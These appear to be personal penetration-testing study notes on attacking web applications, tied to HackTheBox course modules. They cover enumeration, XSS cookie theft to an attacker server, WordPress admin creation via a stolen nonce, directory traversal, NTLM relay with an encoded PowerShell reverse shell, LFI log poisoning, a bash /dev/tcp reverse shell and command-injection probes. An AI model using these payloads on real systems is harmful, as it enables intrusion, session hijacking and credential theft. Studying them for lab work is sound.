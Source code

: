 ```yaml
---
layout: blank
pagetitle: Attacking Web Applications
---
```


[HackTheBox - Attacking Common Applications](https://academy.hackthebox.com/module/113/section/1087)

[HackTheBox - Attacking Common Services](https://academy.hackthebox.com/module/116/section/1140)

## Enumeration
- Install Wappalyzer when doing boxes/taking test
- `gobuster`
	- Very noisy! Enumerates dirs/files
	- Usage: `gobuster dir -u {IP} -w /usr/share/wordlists/dirb/common.txt -t {threads}`
	- Make sure it checks for .git
		- https://github.com/arthaud/git-dumper to dump the info
		- https://medium.com/swlh/hacking-git-directories-e0e60fa79a36
- Check robots.txt
- Check for APIs with /FUZZ/v1 or /FUZZ/v2
- Fuzz default IIS servers!!! They can have stuff
- `whatweb` is like a local wappalyzer on kali
	- `whatweb http://{IP}`

## Exploitation
- Finding default passwords for HTTP basic auth
	- Use [LoginHunter](https://github.com/InfosecMatter/default-http-login-hunter) with a list of hosts to find things like cameras w default passwords
	- Can be very useful on internal engagements with hundreds/thousands of webservers
- HTTP Headers:
	- `HTTP User-Agent` can sometimes be displayed in logging pages, so modifying it could XSS or SQLi some sites
	- `Server` response can reveal info about server
- I guess try adding `{"admin":"True"}`  (or equivalent) against registration APIs? 
- If HttpOnly flag isn't on Auth cookies, we can steal them w/ XSS
	- `<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>`

## XSS Exploitation Example
- Grabbing a nonce value from /wp-admin/user-new.php
	- var ajaxRequest = new XMLHttpRequest(); 
	- var requestURL = "/wp-admin/user-new.php"; 
	- var nonceRegex = /ser" value="(\[^"]\*?)"/g; 
	- ajaxRequest.open("GET", requestURL, false); 
	- ajaxRequest.send(); 
	- var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); 
	- var nonce = nonceMatch\[1];
- Then, use that `nonce` variable with /wp-admin/user-new.php to create a new administrator

## Directory Traversal
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- `%2f` for `/` and `%2e` for `.` 
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

## File Inclusion
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include:
	- **/var/www/html/backup.php**
	- **/opt/admin.bak.php**
	- **/opt/install.txt** (or **C:\\Users\\install.txt**)
	- **/opt/passwords**

## File Upload
- SVG upload can lead to XXE
- webshells found at /usr/share/webshells
- On boxes, try changing filename to include `../` - could upload root ssh key

## Command Injection
- ``dir 2>&1 \*\`|echo CMD);&<# rem #>echo PowerShell`` will check injected shell type
- Can use powershell for creating shells

## Wordpress
- Use `wpscan` and investigate the plugins
	- `wpscan --url http://{IP} --enumerate p --plugins-detection aggressive`
	- Look for `[!] This version is out of date`
	- Can use searchsploit for these plugins or the wpscan vuln database
- If signed into the wordpress page
	- Check out plugins from the inside
	- Check out the Backup Migration
		- Changing this to our IP can allow us to relay authentication (if signing is disabled)
		- `//{kali_ip}/test` with `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`
	- Try to upload a shell